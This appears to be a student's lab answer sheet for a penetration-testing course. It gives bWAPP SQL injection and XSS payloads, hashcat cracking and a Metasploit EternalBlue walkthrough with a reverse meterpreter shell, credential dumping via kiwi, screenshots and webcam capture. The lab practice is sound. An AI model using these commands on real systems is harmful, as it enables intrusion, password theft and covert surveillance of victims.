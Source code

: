 # C part questions(13 points)
Another parts [part A](part2.md) [part B](part3.md)
 ## Download index page of cisco.com, extract unique dns to which the page redirects you
 1. Download the index page 
 ```
 kali@kali:~# wget www.cisco.com
 ```
 2. Use this command to get domains
 ```
 kali@kali:~# grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
 ```
 3. Get ip addresses (maybe optional)
 ```
 kali@kali:~# for url in $(cat list.txt); do host $url; done
 ```
 
 ### Explanation
 1. Extract all the links with `grep "href=" index.html`
 2. Get mostly the links with "/" delimeter `cut -d "/" -f 3`
 3. Get only domains with `grep "\."`
 4. Clean up the above step with `cut -d '"' -f 1`
 5. Sort results with `sort -u`
 
 
 ## Show 3 working OWASP in bWAPP
 1. sqli_2.php
 ```
 localhost/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order%20by%204+desc+&action=go
 ```
 2. xss_stored_1.php
 ```
 <script>alert(1);</script>
 ```
 3. xss_stored_3.php
   1. Find `input` in code inspector and change **type** from `hidden` to `text`
   2. Enter any value to first `input` and enter your script to second `input`
   ```
   "><script>alert(1);</script>
   ```
 4. htmli_get.php
 ```
 <script>alert(document.cookie);</script>
 ```
 
 ## Hash: 1st indentify which hash, then break given hash
 ### How can I identify hash type
 
 - There is no concrete method for identifying a hash algorithm using the hash alone.

 - Some hashes have signatures which give a strong indication of which algorithm was used, such as “$1$” for md5crypt. Usually you can rely on this information; however, this method of identification is not bullet-proof! For example, consider an algorithm such as crypt(sha256(pass), “$1$”).

- For hashes which have no signature, it is virtually impossible to distinguish which algorithm was used. A string of 32 hex characters could be LM, NTLM, MD4, MD5, double MD5, triple md5, md5(sha512(pass)), so on and so forth. There is literally an infinite number of possibilities for what the algorithm may be!

- Tools which claim to be able to identify hashes simply use regular expressions to match the hash against common patterns. This method is extremely unreliable and often yields incorrect results. It is best to avoid using such tools.

- A much better way to identify the hash algorithm would be to understand the origin of the hashes (e.g. operating system, COTS application, web application, etc.) and make an educated guess at what the hash algorithm might be. Or better yet, use the source!

- For some example hashes see the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) wiki page.

### Breaking the hash
[hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)
```
hashcat -m [hash type] -a [attack mode] [hash itself] --force
```
- Example breaking md5 of `hello` with brute-force
```
hashcat -m 0 -a 3 5d41402abc4b2a76b9719d911017c592 --force
```
 ## msfconsole: setup everything and run exploit
 1. using `nmap` or `armitage` find ip of device
 2. find if there is smb service
 ```
 nmap -v [ip address] -Pn -A -T5
 ```
 3. run Metasploit
 ```
 sudo msfconsole
 ```
 4. Follow these commands
    1. `use exploit/windows/smb/ms17_010_eternalblue`
    2. `set rhosts [target ip]`
    3. `set payload windows/x64/meterpreter/reverse_tcp`
    4. `set lhost [own ip]`
    5. `set ForceExploit true`
    6. `exploit`
5. If exploit was **successful**
   1. **get passwords**
      1. `load kiwi`
      2. `getprivs`
      3. `creds all`
   2. **take screenshot**
      1. `screenshot`
   3. **capture webcam**
      1. `webcam_list` (check if there is any webcam)
      2. `webcam_snap` (take a photo from webcam)
      3. `webcam_stream` (to stream a video from a webcam)
